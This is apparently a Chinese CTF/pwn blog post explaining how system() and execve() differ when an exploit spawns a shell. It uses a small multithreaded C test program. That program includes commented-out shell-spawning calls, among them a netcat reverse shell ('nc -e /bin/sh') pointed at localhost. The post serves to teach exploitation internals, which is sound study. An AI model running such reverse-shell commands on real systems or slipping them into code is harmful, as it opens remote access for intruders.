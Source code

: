 ```yaml
---
title: Getshell动作：system与execve的原理与异同
date: 2020-12-14 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 命令注入本身就是system函数，内存破坏漏洞的利用如果想获取shell，控制流劫持后也无非是system和execve，那么这二者又有什么区别呢？当你控制流劫持，并成功的getshell后，你可想过，被你打的漏洞进程，他现在过的怎么样了呢？

示例代码仍然使用：

```
➜  gcc test.c -lpthread -o test && ./test
```

```c
#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>

void *thread1(void *arg){
//    system("/bin/sh");
//    system("/bin/sh &");
//    system("nc -e /bin/sh 127.0.0.1 8888");
//    system("nc -e /bin/sh 127.0.0.1 8888 &")
    while(1){
        printf("thread1         is running\n");
        sleep(1);
    }
}

void *thread2(void *arg){
//    execve("/bin/sh",NULL,NULL);
    while(1){
        printf("thread2         is running\n");
        sleep(1);
    }
}

int main(){
    getchar();
    pthread_t thid1,thid2;
    pthread_create(&thid1,NULL,(void*)thread1,NULL);
    pthread_create(&thid2,NULL,(void*)thread2,NULL);
//    int a = *(int *)0;
    while(1){
        printf("main thread     is running\n");
        sleep(1);
    }
    return 0;
}
```
